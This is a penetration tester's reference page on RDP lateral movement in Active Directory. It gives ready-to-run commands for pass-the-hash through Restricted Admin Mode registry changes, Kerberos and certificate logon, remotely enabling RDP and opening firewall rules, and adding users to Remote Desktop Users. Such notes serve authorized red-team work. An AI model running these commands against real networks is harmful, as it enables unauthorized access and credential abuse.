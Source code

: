 ```yaml
---
title: RDP Lateral Movement
---
```


[[notes/lateral-movement/index]] over [[notes/network/rdp]].

Connect over RDP.

=== "[[notes/tools/freerdp]]"
    ~~~ bash
    xfreerdp /cert:ignore +clipboard /dynamic-resolution /tls-seclevel:0 /u:john.doe@corp.local /p:'passw0rd' /v:srv01.corp.local
    ~~~

=== "builtin"
    ~~~ bat
    mstsc.exe /v:srv01.corp.local
    ~~~

> **Note:** RDP works over Chisels SOCKS proxy, but not over Sliver.

References:

- [How Authentication Works when you use Remote Desktop](http://web.archive.org/web/20230928175714/https://syfuhs.net/how-authentication-works-when-you-use-remote-desktop), including Remote Credential Guard and PKU2U

Other tools:

- [evilrdp](https://github.com/skelsec/evilrdp)

Untested tools:

- [IronRDP](https://github.com/Devolutions/IronRDP), in Rust

# Pass the Hash

[[notes/ad/pass-the-hash]] to RDP does not work by default because RDP requires interactive logon.
However it is possible to switch RDP to network logon by enabling *Restricted Admin Mode*.
Unfortunately this introduces the infamous [[notes/ad/double-hop-problem]].
It can be configured by setting the [[notes/windows/registry]] value `HKLM\System\CurrentControlSet\Control\Lsa\DisableRestrictedAdmin` to `0`.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin -vt REG_DWORD -vd 0
    ~~~

=== "PowerShell"
    ~~~ powershell
    New-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\LSA' -Name DisableRestrictedAdmin -Value 0
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
    ~~~

Authenticate with a NT hash.

=== "[[notes/tools/freerdp]]"
    ~~~ bash
    xfreerdp /cert:ignore +clipboard /dynamic-resolution /tls-seclevel:0 /u:jdoe@corp.local /pth:$nthash /v:srv01.corp.local
    ~~~

Cleanup.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin
    ~~~

=== "PowerShell"
    ~~~ powershell
    Remove-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\LSA' -Name DisableRestrictedAdmin
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe delete /f "\\srv01.corp.local\HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin
    ~~~

# Kerberos Authentication

Authenticate over Kerberos.

=== "[[notes/tools/aardwolfgui]]"
    ~~~ bash
    aardpclient 'rdp+kerberos-password://corp\jdoe:passw0rd@srv01.corp.local/?dc=dc01.corp.local'
    ~~~

Kerberos support in `rdesktop` seems to be incomplete.
`crackmapexec` should support it, but currently throws an exception.
`aardwolf` does support it, but doesn't implement dynamic resolution and shared folders yet.

[[notes/ad/pass-the-ticket]] to RDP works only if *Remote Credential Guard* is enabled, because otherwise it requires an interactive logon.

References:

- [twitter.com/Defte_/status/1707370420515553356](https://twitter.com/Defte_/status/1707370420515553356), recompile [[notes/tools/freerdp]] with `WITH_GSSAP` for Kerberos support
- [Abusing RDPs Remote Credential Guard with Rubeus PTT](http://web.archive.org/web/20230216004623/https://www.pentestpartners.com/security-blog/abusing-rdps-remote-credential-guard-with-rubeus-ptt/)

# Certificated-based Authentication

a) With PKINIT ([source](https://mobile.twitter.com/an0n_r0/status/1560699394365673472))

- install `pcsd`
- install [vpcd](https://frankmorgner.github.io/vsmartcard/virtualsmartcard/README.html) as virtual smartcard reader
- install [OpenSC](https://github.com/OpenSC/OpenSC/wiki/Smart-Card-Simulation#simulating-piv) as virtual smartcard
- upload your certificate into the virtual smartcard with [yubico-piv-tool](https://developers.yubico.com/yubico-piv-tool/)
- run `xfreerdp /smartcard`

b) [[notes/ad/unpac-the-hash]]

Maybe you need to disable the smart card requirement first by setting the [[notes/windows/registry]] key `HKLM\Software\Microsoft\Windows\CurrentVersion\policies\System\scforceoption` to `0`.

# Enable RDP

Enable RDP by setting the [[notes/windows/registry]] value `HKLM\System\CurrentControlSet\Control\Terminal Server\fDenyTSConnections` to `0` and open the firewall.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local add -keyName 'HKLM\System\CurrentControlSet\Control\Terminal Server' -v fDenyTSConnections -vt REG_DWORD -vd 0
    impacket-wmiexec -k -no-pass -nooutput srv01.corp.local 'netsh advfirewall firewall set rule group="remote desktop" new enable=yes'
    ~~~

=== "PowerShell"
    ~~~ powershell
    Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name fDenyTSConnections -Value 0
    Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'
    Get-Service termservice
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    netsh.exe advfirewall firewall set rule group="remote desktop" new enable=yes
    sc.exe query termservice
    ~~~

Cleanup.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local delete -keyName 'HKLM\System\CurrentControlSet\Control\Terminal Server' -v fDenyTSConnections
    ~~~

=== "PowerShell"
    ~~~ powershell
    Remove-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name fDenyTSConnections
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe delete /f "\HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
    ~~~

Allow an unprivileged user to login over RDP.

~~~ bat
net.exe localgroup "Remote Desktop Users" jdoe /add
net.exe localgroup Remotedesktopbenutzer jdoe /add
~~~
